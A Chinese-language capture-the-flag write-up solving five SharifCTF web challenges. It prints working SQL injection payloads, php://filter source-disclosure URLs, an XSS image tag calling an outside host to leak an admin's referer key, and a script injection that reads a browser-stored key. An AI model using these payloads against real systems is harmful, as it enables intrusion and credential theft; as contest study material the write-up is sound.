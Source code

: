 ##Poor guy
key: SQL 注入， $input_escaped = str_replace("'","\'",$user_input); \\取消单引号转义

进网页是一个登录页面，用给的账号和密码登陆进去，其中有一个查看图片的功能。打开源码看是一个post的表单然后读取图片。 然后表单中的值是数字，但是图片的路径不是数字，由此想到中间可能存在数据库查询。book_selection 参数会带入查询，但是一开始在这卡住了，因为随便怎么搞都找不到注入点。。。后来给出hint看到这个str_replace("'","\'",$user_input)， 只转义了单引号却没有转义反斜杠，直接在单引号前加一个\转义掉用来转义单引号的反斜杠.

payload: book_selection=9781473621640\'or 1=1#
然后就是正常的盲注，没什么难点，读出secret flag这本书的serial number就是flag



##Irish Home
key: SQL 注入，查询使用的是 " 而不是 '， 文件包含

打开网页有一个登录页面，username存在注入，但是SQL查询是使用双引号框的字符，所以要用双引号结束字符串

payload: password=1&username=-1" or 1=1# or后为真时会爆SQL注入提示，为假时提示账号不存在，然后就是正常的盲注，得到账号密码
Cuchulainn：2a7da9c@088ba43a_9c1b4Xbyd231eb9 
登录进去，发现没有flag，查看notice说的是flag.php被删除了。在admin.php页面查看功能发现有
delete.php, show.php, edit.php, show.php中存在文件包含show.php?page=blog, 用父路径跳了一下发现可以用父路径，php://filter试了下可以直接读源码。那就直接用base64读出delete.php的源码来找一下删除了之后发生了什么
http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/read=convert.base64-encode/resource=../delete 
if(file_exists($fpath)) {
		rename($fpath, "deleted_3d5d9c1910e7c7/$fname");
	}
删除后的文件被移到了deleted_3d5d9c1910e7c7目录，直接读
http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/read=convert.base64-encode/resource=../deleted_3d5d9c1910e7c7/flag 
得到flag.php的源码
<?php
$username = 'Cuchulainn';
$password = ;	// Oi don't save me bleedin password in a shithole loike dis.
$salt = 'd34340968a99292fb5665e';
$tmp = $username . $password . $salt;
$tmp = md5($tmp);
$flag = "SharifCTF{" . $tmp . "}";
echo $flag;
把密码加上去在本地跑一下就出来了
SharifCTF{65892135758717f9d9dfd7063d2c2281}


##JikJik
Key: img XSS, referer
注册个账号登录进去，就只有个留言板，下面写了
*JikJiks are moderated. They appear in the list after admin's approval.
很明显就是一个XSS
然后犯二了，总觉得必须要得到cookie才行。结果根本不需要，信息是在http_referer中，payload:
<img src="//xposimon.com/evil_task.php">
看referer信息：
HTTP_REFERER:http://192.168.101.58:8085/last/?key=456b7016a916a4b178dd72b947c152b7
这个是内网访问的这个站，需要把内容IP换成对应的外网IP，然后访问
http://http://ctf.sharif.edu:8085/last/?key=456b7016a916a4b178dd72b947c152b7 得到admin 的cookie，然后直接访问主页，有一个留言
flagSharifCTF{226b7016a916a4b178dd72b947c15222}
得到flag




##CBPM
KEY：csrf, localStorage, javascript代码分析
题目描述是一个cloud-based service password manager，而且admin也在使用
By the way, admin protects its machine with a strong and restrictive firewall..
说明admin不能访问其他域，或者理解成只能访问相同域的内容

进入这个系统随便注册个账号，然后登陆，在change password页面有对这个加密的解释（理解这个就好做了）
Your decrypted master encryption key (KEY) is available in your browser and its encrypted version is stored on the server. Now you can select a new master password and re-encrypt the KEY with it (you will need this new master password to access your KEY) or go further and generate a new random KEY (this requires all passwords to be re-encrypted with this new KEY in addition to encrypting the KEY with your master password). Make your decision and be patient...
意思就是注册的时候注册了一个master password, 然后一个random的KEY储存在browser里面，（localStorage里面，browser能储存的还有session strorage, 在chrome的application标签里面能看到（在console旁边））, 用这个KEY把master word加密之后储存在云端，然后下次登陆的时候输入一个master password登陆，然后从云端下载加密后的KEY，用master password解密，得到KEY储存在broweser里面。 如果登陆的master password和注册的master password相同的话，那么KEY就是最开始生成的random的KEY，但是如果不知道master password是多少，就得不到正确的KEY，然后就不能正确的解密flag中的内容。password中的内容都是用KEY加密的，所以要得到flag，就需要知道正确的KEY或者正确的master password。

然后想到admin也使用这个系统，所以在admin的browser中也储存了admin使用的KEY。思路就是随便输个master password先登录admin，只要能够通过XSS得到admin的KEY就行了。 然后admin被防火墙隔了，所以正常的XSS多半不行的。。然后就想到用csrf，让admin做一个能够改变页面的操作来显示KEY的值。
正好在list password页面上有一个添加password的操作可以改变页面，抓一个包：
POST /put.php HTTP/1.1
Host: ctf.sharif.edu:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
x-csrftoken: 
Content-Type: application/json
Origin: http://ctf.sharif.edu:8081
Referer: http://ctf.sharif.edu:8081/home.php?id=eyJ0ZWFtaWQiOiI4MzEifS4xY0lmbTkuYmdIb3c1LTB6ZkJJcVVvYnVJZDJuQ29iWUpF
Content-Length: 193
Cookie: csrftoken=lgWwKy3RpnLt4CPGZUgXeMdiaL7uXUvxXzgVcN4LAKuy6lDKmuyOljzBVFqq2Q7i; KEY=9f9f5111f7b27a781f1f1ddde5ebc2dd2b796bfc7365c9c28b548e564176929f; sessionid=q61yrn6pd21lh4lm93nfnlkfo6791bjk; LOGGED_IN_USER=admin
Connection: keep-alive

{"id":"eyJ0ZWFtaWQiOiI4MzEifS4xY0lmbTkuYmdIb3c1LTB6ZkJJcVVvYnVJZDJuQ29iWUpF","prelabel":"","newlabel":"123","encpass":"830635248a750442cdaf7681c1e1c6aa","iv":"829f34abcdd91981aaf1e078ab2ee4a1"}

构造payload
<script>
var xml = new XMLHttpRequest();
xml.open("POST","/put.php",true);
xml.send('{"id":"eyJ0ZWFtaWQiOiI4MzEifS4xY0lmbTkuYmdIb3c1LTB6ZkJJcVVvYnVJZDJuQ29iWUpF","prelabel":"","newlabel":"'+localStorage.KEY+'","encpass":"830635248a750442cdaf7681c1e1c6aa","iv":"829f34abcdd91981aaf1e078ab2ee4a1"}');(注意双引号不要掉了，之前因为忘写双引号搞了好久)
</script>

在console里面 localStorage.setItem('KEY','VkZ6eERYd05kUXlIZk5BUFl1S2wyRm55TVlMVnFlSXM=',)
查看password得到flag




##ExtraSecure
Key: 绕过js重定向, 信息收集
题目描述
You can even ask the admin to sign your content! And you know he uses Chrome to browse the web.This is an extra secure service with all protections, including SQL injection protection and XSS Audit, without any vulnerability
没有SQL,XSS，进入页面发现有4个功能
  ● Sign by Yourself
  ● See List of Signatures
  ● Sign by Administrator
  ● Get the flag
先进Get the flag，发现需要admin sign 831,然后得到signature在这输入得到flag
再看Sign by Administrator, 可以输入需要sign的内容，而且会把这个sign的请求保存在服务器
请求sign “831”，看list of signatures， 没有反应。
再看Sign by Yourselef， 是给用户自己sign 的一个页面，随便输入个内容，弹出alert弹框然后重定向主页，再看signatures没有变化，说明这里是没法sign的，因为会alert，抓个sign by yourself的包，得到响应
HTTP/1.1 200 OK
Server: nginx/1.6.1
Date: Mon, 19 Dec 2016 14:41:08 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
Content-Length: 1407

<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="x-ua-compatible" content="ie=edge">

    <title>ExtraSecure - Wait & Sign</title>
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <script src="js/index.js"></script>
    <script src="js/cookie.js"></script>
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN";
    </script>
</head>
<body>
<div class="container">
    <div class="card">
        <h1 class="card-header">Signing in <i id="time">10</i> seconds...</h1>
        <p class="card-block">Please be patient... The content will be signed with your key soon and you will be
            redirected to the <i>list</i> page to view the results.</p>
    </div>
</div>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MTIzNA=="),
            content: "MTIzNA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
</body>
</html>

第一个script是alert然后重定向，第二个script看内容应该就是sign的代码。
再抓一个sign by admin的包

POST /request.php HTTP/1.1
Host: ctf.sharif.edu:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://ctf.sharif.edu:8083/request.php?id=eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN
Cookie: sessionid=kwux7824jpnpmd8blhisgp98u779p8tx; csrftoken=3DFrzRIN7dGj9yJ4isj81Z7cNoArZqdfEvIFyUE163KKuLF8HIbyGHy87JhNIC6h; KEY=9f9f5111f7b27a781f1f1ddde5ebc2dd2b796bfc7365c9c28b548e564176929f
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 251

content=831&id=eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN%27%2f%2f%5c%26content%3D831

发现是一个post请求而且postdata中的url是指向wait_and_real_sign.php，所以在这里就可以分析出来，实际上在request.php这个页面给admin的request是让admin在wait_and_real_sign.php页面sign这个content，content被base64加密。然后需要document.cookie作为参数，所以必须是admin sign的signature才有用，然后id就是team_id
  var body = {
            //content: base64Decode("MTIzNA=="),
            content: "MTIzNA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN'
        };
所以现在的问题就是怎么绕过script的重定向来让后面的sign的脚本能够正常执行，而且不能改变id，content用来sign的值
先看
document.location = "/index.php?id=eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN";
如果在id最后加上一个\就可以转义"然后这段脚本报错（未关闭的字符串），这个地方的原因是因为这段javascript代码是php动态生成的，所以生成是什么样就执行成什么样,所以只要插入了\就会代入转义。和"$_GET[x]" ?x='\'是不一样的。(每一个script标签内的脚本是独立的，所以如果一个script标签的内容报错是不影响另一个script标签的内容执行的)
然后这段script无法执行，也就无alert和重定向，但是因为改变了id的值，导致后边用来sign的id的值也改变了，而且会转义'报错，后面的sign的script标签的脚本也无法执行了。。

再来看两段id的不同之处，前一个id是双引号，后面是单引号，由此就可以想到对sign的id，先把前面的单引号闭合，而且正好id换行了，则可以再用行注释把后面的转义符注释掉，就不影响结果了
所以构造出来的 id就是
id=eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN'//\
然后该url编码的地方编码，最终payload：
/request.php
postdata:
content=831&id=eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN%27%2f%2f%5c%26content%3D831
然后等一会查看list of signatures，用得到的signature get flag



另外的思路：
We know that admin uses Chrome. And this browser has XSS Auditor.
Before rendering the response in the Document Object Model presented to the user, XSS auditor searches for instances of (malicious) parameters sent in the original request. If a detection is positive, the auditor is triggered and the response is "rewritten" to a non-executable state in the browser DOM.
所以如果在请求中写上第一段中的alert的语句，让其被识别成XSS攻击的语句，就可以让browser重写这段语句成不能执行的代码，所以payload：
http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=my_team_id&content=699&sth=<script>alert("Sorry, server is busy for a while!");
编码：
content=831&id=eyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI4MzEifS4xY0l5OWkuTzI4SDVERVpFQmxzbWZxdktxQVRCT29aWmVN%26content%3D831%26sth%3d%3Cscript%3Ealert%28%22Sorry%2C+server+is+busy+for+a+while%21%22%29%3B
